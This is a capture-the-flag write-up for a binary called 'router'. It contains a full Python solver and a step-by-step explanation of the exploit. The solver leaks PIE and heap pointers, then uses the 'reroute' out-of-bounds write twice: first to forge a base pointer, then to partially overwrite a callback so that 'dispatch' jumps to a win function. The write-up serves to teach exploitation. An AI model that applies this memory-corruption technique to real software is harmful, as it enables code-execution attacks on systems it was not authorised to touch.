pie_base = leak(fx_draw_basic) - 0x2260 win_addr = pie_base + 0x2460
Plan
leak fx_draw_basic → get PIE base compute win address use reroute to overwrite callback trigger dispatch → jump to win
Solve.py
#!/usr/bin/env python3
import re
import socket
import subprocess
import sys
from ctypes import c_int32
def read_until_prompt(io):
data = ""
while "router> " not in data:
ch = io["r"].read(1)
if not ch:
break
data += ch
return data
def cmd(io, s):
io["w"].write(s + "\n")
io["w"].flush()
return read_until_prompt(io)
def close_io(io):
try:
io["w"].write("quit\n")
io["w"].flush()
except (BrokenPipeError, OSError):
pass
return io["r"].read()
def extract_ptr(pattern, text):
m = re.search(pattern, text)
if not m:
raise RuntimeError(f"failed to find {pattern!r} in output:\n{text}")
return int(m.group(1), 16)
def run(io):
read_until_prompt(io)
print(cmd(io, "add_order 12 1"), end="")
replay = cmd(io, "replay 0")
receipt = cmd(io, "receipt 0")
print(replay, end="")
print(receipt, end="")
fx_draw_basic = extract_ptr(r"renderer=(0x[0-9a-fA-F]+)", replay)
renderer = extract_ptr(r"hint=(0x[0-9a-fA-F]+)", receipt)
pie_base = fx_draw_basic - 0x2260
win = pie_base + 0x2460
node_id = 12 + 16 * 1
target_addr = renderer + 0x430 - 4
k = ((node_id - (target_addr & 0xFFFFFFFF)) & 0xFFFFFFFF) // 8
heap_idx = -k
fake_heap = target_addr + 8 * k
fake_heap_hi = c_int32((fake_heap >> 32) & 0xFFFFFFFF).value
print(cmd(io, f"reroute 0 -2 {fake_heap_hi}"), end="")
print(cmd(io, f"reroute 0 {heap_idx} {c_int32(win & 0xFFFFFFFF).value}"), end="")
print(cmd(io, "dispatch 0"), end="")
print(close_io(io), end="")
def main():
if len(sys.argv) == 1:
p = subprocess.Popen(
["./router"],
stdin=subprocess.PIPE,
stdout=subprocess.PIPE,
stderr=subprocess.STDOUT,
text=True,
)
run({"r": p.stdout, "w": p.stdin})
return
if len(sys.argv) == 3:
sock = socket.create_connection((sys.argv[1], int(sys.argv[2])))
f = sock.makefile("rw", buffering=1, encoding="utf-8", newline="\n")
io = {"r": f, "w": f}
run(io)
return
print(f"usage: {sys.argv[0]} [HOST PORT]", file=sys.stderr)
sys.exit(1)
if __name__ == "__main__":
main()
Solver Overview
This solver uses the exact primitives we found earlier:
replay→ leaksfx_draw_basicfor PIEreceipt→ leakspuVar14for heapreroute→ gives the OOB writedispatch→ triggers the overwritten callbackThe helper functions in the script like
read_until_prompt()/cmd()are just for I/O, so the important part is the exploit flow itself.
Step 1 — Leak PIE and Heap
First, we create an order and leak both a code pointer and a heap pointer:
print(cmd(io, "add_order 12 1"), end="") replay = cmd(io, "replay 0") receipt = cmd(io, "receipt 0")Then we extract:
fx_draw_basic = extract_ptr(r"renderer=(0x[0-9a-fA-F]+)", replay) renderer = extract_ptr(r"hint=(0x[0-9a-fA-F]+)", receipt)From earlier:
replayleaksfx_draw_basicreceiptleakspuVar14(heap object)So we can compute:
pie_base = fx_draw_basic - 0x2260 win = pie_base + 0x2460
Note on
add_order 12 1The choice of
(12, 1)is intentional, but not needed to understand this step yet.
It will be explained later when we discuss how to control the write primitive fromreroute.
Step 2 — The Main Constraint in
rerouteThe tricky part is that
reroutedoes not give a fully controlled 8-byte write.Relevant code:
piVar21 = (int *)(lVar30 + (long)iVar25 * 8); piVar21[1] = iVar27; *piVar21 = iVar20 + iVar6;So the write is split like this:
[0..3] = order_y * G + order_x [4..7] = 3rd argument of rerouteThat means:
- upper 4 bytes are fully controlled from
reroute- lower 4 bytes come from the coordinates we chose in
add_orderSo we cannot just freely write any 8-byte pointer in one shot.
Step 3 — Exploit Strategy
Our goal is to overwrite:
heap + 0x430 // fx_finish_dummy
Recall: how
reroutewritespiVar21 = (int *)(lVar30 + (long)iVar25 * 8); *piVar21 = ...; piVar21[1] = user_input;So in memory:
[addr + 0..3] = first dword [addr + 4..7] = second dword (controlled)→ we only control [4..7] of the write slot
Why we do NOT target
heap + 0x430directlyIf we write directly at:
heap + 0x430then the controlled half lands at:
heap + 0x434 .. heap + 0x437which corresponds to the high 4 bytes of the function pointer.
That part is not useful to overwrite.
Why Partial Overwrite Works (PIE + Little Endian)
Both
fx_finish_dummyandwinare inside the same PIE binary.So after relocation, they look like:
fx_finish_dummy = [ LOW(fx_finish_dummy) ][ HIGH(PIE) ] win = [ LOW(win) ][ HIGH(PIE) ]Key observation:
HIGH(PIE) is identical only LOW(...) differs
Memory layout (little endian)
In memory:
[ +0..+3 ] = low 4 bytes [ +4..+7 ] = high 4 bytesSo
fx_finish_dummyin memory:heap + 0x430: [ LOW(fx_finish_dummy) ][ HIGH(PIE) ] ^ bytes 0..3 ^ bytes 4..7
What
rerouteactually overwritesRecall:
[addr + 4..7] = controlledSo by targeting:
heap + 0x430 - 4we get:
[heap + 0x430 .. 0x433] = controlled valuewhich means:
we overwrite ONLY bytes 0..3 (low 4 bytes)
Visualizing the overwrite
Before:
[ LOW(fx_finish_dummy) ][ HIGH(PIE) ]After overwrite:
[ LOW(win) ][ HIGH(PIE) ]We only change:
bytes 0..3and leave:
bytes 4..7 (HIGH) untouched
Result
fx_finish_dummy → winEven though we never performed a full 8-byte write.
Step 4 — Why We Need Two
reroutesFrom the previous step, our goal is to make the controlled half of
rerouteland on:fx_finish_dummy - 4But
reroutewrites to:piVar21 = (int *)(lVar30 + (long)iVar25 * 8);So every write target has the form:
lVar30 + idx * 8Since:
idx * 8 = always a multiple of 8we cannot hit a
-4position unless the base itself already satisfies:lVar30 % 8 = 4So the main problem is no longer just the final target — we first need to control the base used by
reroute.
Where does
lVar30come from?At the start of
reroute:lVar30 = *(long *)(*(long *)(&DAT_001060a8 + lVar13) + 8);Break that carefully:
- First:
*(long *)(&DAT_001060a8 + lVar13)gives the heap object pointer for this order, i.e.:
puVar14
- Then the
+ 8means:access the field at offset 0x8 inside puVar14so this becomes:
lVar30 = *(long *)(puVar14 + 0x8);So the
+8here is not another later offset — it is simply the field being read.
Matching that with
add_orderFrom
add_order:*(undefined4 **)(&DAT_001060a8 + lVar13 * 0x1038) = puVar14; *(undefined4 **)(puVar14 + 2) = puVar14 + 6;Since
puVar14is anundefined4 *:puVar14 + 2 = 2 * 4 = 0x8 puVar14 + 6 = 6 * 4 = 0x18So this line:
*(undefined4 **)(puVar14 + 2) = puVar14 + 6;means:
[puVar14 + 0x8] = puVar14 + 0x18Therefore:
lVar30 = *(long *)(puVar14 + 0x8) = puVar14 + 0x18Visualizing the chain:
DAT_001060a8 + lVar13 -> puVar14 puVar14 + 0x8 -> stored pointer stored pointer -> lVar30or more concretely:
[puVar14 + 0x8] = puVar14 + 0x18 ↓ lVar30
Why this becomes the first target
The key point is:
reroute does not use puVar14 directly reroute uses the pointer stored at [puVar14 + 0x8]So if we overwrite:
[puVar14 + 0x8]then the next
reroutewill use our forged value as the new base.And that forged base must satisfy:
base % 8 = 4because then:
(base + idx * 8) % 8 = 4which finally makes it possible to land on:
fx_finish_dummy - 4
Conclusion
So the first
rerouteis not for overwritingfx_finish_dummyyet.Its real job is:
overwrite [puVar14 + 0x8]so that the next base used by
reroutebecomes a value with:% 8 = 4That is why we need two
reroutes:first reroute -> fix the base second reroute -> use that base to hit fx_finish_dummy - 4
Step 5 — Building the Forged Base
From Step 4, we know the first
reroutemust overwrite:[puVar14 + 0x8]because that field becomes:
lVar30 = *(long *)(puVar14 + 0x8);And the new value must satisfy:
base % 8 = 4
How do we control the written value?
Recall how
reroutewrites:piVar21 = (int *)(lVar30 + (long)iVar25 * 8); *piVar21 = order_y * G + order_x; piVar21[1] = user_input;So one
reroutereconstructs 8 bytes like:[0..3] = order_y * G + order_x // from add_order [4..7] = user_input // from reroute arg3Meaning:
low 4 bytes → controlled via add_order high 4 bytes → controlled via reroute arg3
Why we use
add_order 12 1This choice is directly tied to how the low 4 bytes are produced.
Later, when we overwrite
[puVar14 + 0x8], the low dword will be:order_y * G + order_xSo we choose:
add_order 12 1because:
order_y * G + order_x = 1 * 16 (map width) + 12 = 28 = 0x1cAnd:
0x1c % 8 = 4This gives us exactly the lower 4-byte value needed for the forged base.
Building the full pointer
We do not need to fully control all 8 bytes.
- low 4 bytes → we already get
0x1c- high 4 bytes → we reuse heap-based bytes
We first leak the heap object:
receipt = cmd(io, "receipt 0") renderer = extract_ptr(r"hint=(0x[0-9a-fA-F]+)", receipt)Here
rendererispuVar14.So we can construct a new pointer that stays in the same heap region while having the lower bits we want.
Step 6 — The Two
reroutesBefore using the solver math, there is one simple but important observation:
the first
reroutereaches the stored base pointer just by walking backward withidx = -2.
Recall the initial base
From the earlier setup,
rerouteresolves its base with:lVar30 = *(long *)(puVar14 + 0x8);and initially that field contains:
[puVar14 + 0x8] = puVar14 + 0x18So before any corruption:
lVar30 = puVar14 + 0x18Then
reroutewrites at:piVar21 = (int *)(lVar30 + idx * 8);
Why
reroute 0 -2 ...hits[puVar14 + 0x8]If:
lVar30 = puVar14 + 0x18then choosing:
idx = -2gives:
lVar30 + (-2) * 8 = puVar14 + 0x18 - 0x10 = puVar14 + 0x8So the first
reroutedoes not need fancy math to find the field — it naturally lands on:[puVar14 + 0x8]just by using
-2.That is why the solver uses:
reroute 0 -2 {fake_heap_hi}
What the first
reroutewrites thereRecall the write layout:
*piVar21 = order_y * G + order_x; piVar21[1] = user_input;So this first overwrite rebuilds
[puVar14 + 0x8]as:[ low 4 bytes ] = order_y * G + order_x [ high 4 bytes ] = fake_heap_hiFrom our earlier
add_order 12 1choice:order_y * G + order_x = 1 * 16 + 12 = 0x1cSo after the first
reroute, the field becomes:[puVar14 + 0x8] = [ 0x1c ][ fake_heap_hi ]Meaning:
- the low 4 bytes come from
add_order- the high 4 bytes come from
fake_heap_hiAnd since
fake_heap_hiis taken from the leaked heap pointer, it is basically still using the correct heap high bytes.So the new stored base is still a heap pointer, but now its low bits satisfy:
% 8 = 4
Where solver math starts to matter
After the first
reroute, the next base is now our forged one:lVar30 = fake_heapNow the solver math is used for the second
reroute:node_id = 12 + 16 * 1 target_addr = renderer + 0x430 - 4 k = ((node_id - (target_addr & 0xFFFFFFFF)) & 0xFFFFFFFF) // 8 heap_idx = -k fake_heap = target_addr + 8 * k fake_heap_hi = c_int32((fake_heap >> 32) & 0xFFFFFFFF).valueThe purpose of this part is to choose:
- a forged base
fake_heap- and a backward index
heap_idxsuch that:
fake_heap + heap_idx * 8 = target_addrwith:
target_addr = puVar14 + 0x430 - 4So the second
reroute:reroute 0 {heap_idx} {c_int32(win & 0xFFFFFFFF).value}lands exactly on:
fx_finish_dummy - 4and its controlled half overwrites the low 4 bytes of
fx_finish_dummywith the low 4 bytes ofwin.
Summary
So the two
reroutes have different roles:reroute 0 -2 fake_heap_hi→ walk backward from the initial base and overwrite
[puVar14 + 0x8]reroute 0 heap_idx low32(win)→ use the forged base to walk backward again and land on
fx_finish_dummy - 4
Flag
